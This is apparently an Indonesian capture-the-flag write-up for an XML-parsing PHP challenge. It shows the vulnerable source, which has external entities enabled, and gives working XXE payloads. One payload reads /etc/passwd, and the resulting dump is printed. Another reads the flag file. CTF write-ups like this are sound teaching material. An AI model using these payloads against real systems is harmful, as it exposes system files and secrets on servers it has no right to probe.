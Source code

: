 Selamat datang di Toko Jualan Baju CTFR, kali ini mimin ingin menampilkan hasil karya mimin :D.

```bash
nc 103.157.96.13 7776
```

#### Sources
```php
ob_implicit_flush(true);
	function vuln($data) {
		libxml_disable_entity_loader(false);
	    $dom = new DOMDocument();
	    $dom->loadXML($data, LIBXML_NOENT | LIBXML_DTDLOAD);
	    $ctfr = simplexml_import_dom($dom);
	    $user = $ctfr->user;
	    return $user;
	}
	
	echo "Selamat datang di Toko Jualan Baju CTFR\n";
	echo "Silahkan ketik nama, jika nama anda terdapat pada database kami maka anda dapat mengakses toko ini :D\n";
	echo "Nama : ";;
	$data = readline("");
	if ($data != "") {
		if (strpos($data, "<ctfr>") !== false && strpos($data, "</ctfr>") !== false) {
			echo "Selamat datang: " . vuln($data);
		}
	}
```

dari sourcenya ini adalah xml injection atau xxe injection, referensinya 
https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection
https://github.com/padraic/phpsecurity/blob/master/book/lang/en/source/_includes/XML-Injection.rst
https://ismailtasdelen.medium.com/xml-external-entity-xxe-injection-payload-list-937d33e5e116

payload yang dikirim harus memiliki tag `<ctfr></ctfr>` seperti

```
<ctfr><user>kulikode</user></ctfr>
```

jika diinputkan haslinya

```bash
nc 103.157.96.13 7776                                                                                                                                        1 ⨯
Selamat datang di Toko Jualan Baju CTFR
Silahkan ketik nama, jika nama anda terdapat pada database kami maka anda dapat mengakses toko ini :D
Nama : <ctfr><user>kulikode</user></ctfr>
Selamat datang: kulikode 
```

tujuannya mendapatkan RCE atau remote command execution melalui data yang dikirim, misalnya seperti 

```bash
$ nc 103.157.96.13 7776
Selamat datang di Toko Jualan Baju CTFR
Silahkan ketik nama, jika nama anda terdapat pada database kami maka anda dapat mengakses toko ini :D
Nama : <!DOCTYPE replace [<!ENTITY example "Doe"> ]><ctfr><user>&example;</user></ctfr>
Selamat datang: Doe 
```

value element `<user></user>` akan digantikan oleh `ENTITY` dengan nama `example` ini menunjukan kalo bisa di-inject dengan `SYSTEM` command seperti membaca file, misalnya 

```bash
$ nc 103.157.96.13 7776
Selamat datang di Toko Jualan Baju CTFR
Silahkan ketik nama, jika nama anda terdapat pada database kami maka anda dapat mengakses toko ini :D
Nama : <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]><ctfr><user>&ent;</user></ctfr>
Selamat datang: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh
```

dalam kasus ini untuk membaca flagnya

```bash
$ nc 103.157.96.13 7776
Selamat datang di Toko Jualan Baju CTFR
Silahkan ketik nama, jika nama anda terdapat pada database kami maka anda dapat mengakses toko ini :D
Nama : <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/ctf/flag"> ]><ctfr><user>&ent;</user></ctfr>
Selamat datang: CTFR{xx3_3xpl01t_w45_4m4z1n9}
```

Flag 

```
CTFR{xx3_3xpl01t_w45_4m4z1n9}
```